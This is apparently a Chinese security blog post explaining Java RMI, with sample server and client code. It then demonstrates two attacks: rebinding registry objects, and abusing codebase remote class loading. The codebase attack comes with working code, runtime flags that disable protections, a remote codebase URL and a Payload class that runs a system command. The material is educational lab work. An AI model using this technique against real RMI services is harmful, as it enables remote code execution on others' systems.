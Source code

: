 ```yaml
---
title: "Java安全之RMI"
date: 2022-07-22T10:25:13+08:00
draft: false
tags: ["security"]
categories: ["notes"]
authors:
- "bwfish"
---
```


### 如何理解RMI

RMI全称是Remote Method Invocation，即远程方法调用，和RPC(Remote Procedure Call)即远程过程调用类似。RMI的作用就是让某个Java虚拟机中的对象调用另外一个Java虚拟机中对象的方法，RMI是Java独有的一种机制。
现在我们模拟一下RMI的过程，编写一个RMI服务端，一个RMI客户端，让客户端去调用服务端上的方法。
RMI服务端：
```java
public class RMIServer {
    public interface IRemoteHelloWorld extends Remote {
        public String hello() throws RemoteException;
    }

    public class RemoteHelloWorld extends UnicastRemoteObject implements IRemoteHelloWorld {
        protected RemoteHelloWorld() throws RemoteException {
            super();
        }

        @Override
        public String hello() throws RemoteException {
            System.out.println("call from");
            return "Hello world";
        }
    }

    private void start() throws Exception {
        RemoteHelloWorld h = new RemoteHelloWorld();
        LocateRegistry.createRegistry(1099);
        Naming.rebind("rmi://127.0.0.1:1099/Hello", h);
    }

    public static void main(String[] args) throws Exception {
        new RMIServer().start();
    }
}

# 在这段代码中，我们将一个RemoteHelloWorld对象注册到了’rmi://127.0.0.1:1099/Hello‘，客户端只要去请求这个位置就要调用RemoteHelloWorld对象
```
RMI客户端：
```java
public class RMIClient {
    public static void main(String[] args) throws Exception {
        RMIServer.IRemoteHelloWorld hello = (RMIServer.IRemoteHelloWorld)Naming.lookup("rmi://192.168.3.79:1099/Hello");
        String ret = hello.hello();
        System.out.println(ret);
    }
}
```
先运行服务端，在运行客户端：
客户端结果：
![Java004](https://s2.loli.net/2022/07/22/KCxolYe9wTJqcMd.png)
服务端结果：
![Java005](https://s2.loli.net/2022/07/22/xz9dqvaKpsOibn6.png)
从结果来看，客户端只是调用了服务端的方法，服务端将执行结果返回给了客户端，方法的具体执行依然是在服务端。在这个过程有三个部分，1.RMI客户端 2.RMI服务端 3.RMI Registry。RMI Registry就像是一个远程对象注册中心，RMI客户端每次调用具体方法前都会先在RMI Registry中寻找有没有这个远程对象，所以RMI服务端需要将可以被远程调用的对象注册到Registry，才可以被其他的客户端调用。 RMI执行的具体过程大致可以如下图：
![Java006](https://s2.loli.net/2022/07/22/IvipGj17ZsqxKVb.png)
### RMI的安全问题
#### 对Registry的攻击
Registry就像是一个后台管理，那我们可以尝试直接访问Registry修改其上已经存在接口对应的对象。大致的攻击过程如下：
```java
# 使用list()列出Registry上绑定的所有接口
String[] s = Naming.list("rmi://192.168.3.79:1099");

# 如探测出如下的接口:
rmi:192.168.3.79:1099/hello
rmi:192.168.3.79:1099/refObj

# 我们直接尝试修改rmi:192.168.3.79:1099/hello绑定的对象，修改为恶意的一个对象
Payload p = new Payload();
Naming.rebind("rmi:192.168.3.79:1099/hello", p);
```
如果这样重新绑定对象成功，那当别人访问rmi:192.168.3.79:1099/hello接口时就会执行我们的恶意对象。但是往往当我们远程执行Naming.rebind()方法时往往会报错，因为Java对远程访问的Registry做了限制，只有来源地址是localhost的时候，才能调用rebind,bind,unbind等方法，所以这种对Registry的攻击方式是不可行的。

#### 利用codebase来执行任意代码

在RMI中存在远程加载的场景。可以想象一下这样一个场景，客户端向服务端传送了一些序列化的对象，当服务端接受到这些序列化对象后进行反序列化，但是服务端发现有一个对象在本地没有找到，这是服务端就是去查看客户端传过来的数据中有没有codebase，如果有codebase就会去codebase指定的地址去寻找本地没有的这个对象。大致过程如下图：
![Java007](https://s2.loli.net/2022/07/22/Y397UblXgCIpucS.png)
这样我们就利用用codebase来让服务端执行任意命令，不过codebase的利用也是有条件的：

* 安装并配置了SecurityManager
* Java版本低于7u21、6u45，或者设置了Java.rmi.server.useCodebaseOnly=false。在7u21、6u45版本之前，Java.rmi.server.useCodebaseOnly的默认值为false，当Java.rmi.server.useCodebaseOnly=true时，Java虚拟机只信任预先配置好的codebase，不再支持从RMI请求中获取。

现在我们来实践一下，编写一个客户端，一个服务端，准备一台远程服务器，让服务端执行远程服务器上的恶意类。
服务端：
```java
public class RemoteRMIServer {
    private void start() throws Exception {
        if(System.getSecurityManager() == null) {
            System.out.println("setup SecurityManager");
            SecurityManager securityManager = new SecurityManager();
            System.setSecurityManager(securityManager);
        }

        Calc h = new Calc();
        LocateRegistry.createRegistry(1099);
        Naming.rebind("refObj", h);
        System.out.println("RMI运作中");
    }

    public static void main(String[] args) throws Exception {
        new RemoteRMIServer().start();
    }
}

# 服务端运行时要配置参数：-Djava.security.policy=server.policy -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.hostname=192.168.3.79
```
如果使用idea，配置运行时参数在这里：
![Java008](https://s2.loli.net/2022/07/22/zT1SmPdyBsCt4wv.png)
客户端：
```java
public class RMIClient implements Serializable {
    public void lookup() throws Exception {
        if(System.getSecurityManager() == null) {
            System.out.println("setup SecurityManager");
            SecurityManager securityManager = new SecurityManager();
            System.setSecurityManager(securityManager);
        }

        ICalc r = (ICalc) Naming.lookup("rmi://192.168.3.79:1099/refObj");
        List<Integer> li = new Payload();
        li.add(3);
        li.add(4);

        System.out.println(r.sum(li));
    }

    public static void main(String[] args) throws Exception {
        new RMIClient().lookup();
    }
}

# 配置运行时参数：-Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=client.policy -Djava.rmi.server.codebase=http://10.10.10.10:6666/
```
恶意类：
```java
public class Payload extends ArrayList<Integer> {
    static {
        try {
            System.out.println(Runtime.getRuntime().exec("whoami"));
            System.out.println("success");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
运行结果：
服务端：
![Java009](https://s2.loli.net/2022/07/22/DiHWs2h45Og7BeS.png)
客户端：
![Java010](https://s2.loli.net/2022/07/22/GQlLD3g6dMbBmKJ.png)
服务器：
![Java011](https://s2.loli.net/2022/07/22/yolBUiKsrSJXW72.png)
可以看到客户端和服务端都执行了恶意类中的代码，但是原因是不一样的，服务端执行恶意类是codebase指向的服务器中的代码，而客户端执行的恶意类是因为要在本地实例化恶意类对象时执行的。从服务器中我们也发现了一条请求，这条请求就是服务端发起的。
### 参考文档
phith0n的Java安全漫谈
